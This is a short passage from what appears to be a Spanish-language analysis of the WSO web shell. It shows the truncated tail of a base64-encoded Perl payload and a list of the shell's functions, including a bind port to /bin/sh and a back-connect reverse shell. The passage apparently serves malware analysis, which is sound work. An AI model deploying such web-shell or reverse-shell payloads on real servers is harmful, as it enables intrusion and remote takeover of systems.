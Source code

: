 jdXRlICRTSEVMTFxuIjsNCgkJY2xvc2UgQ09OTjsNCgkJZXhpdCAwOw0KCX0NCn0=";
1. Ejecuta la función **`wsoHeader`**
1. Realiza las siguientes funciones ejecutando el código de las variables arriba definidas:
    1. Bind port to /bin/sh [perl]
    1. Back-connect [perl]
1. Ejecuta la función **`wsoFooter`**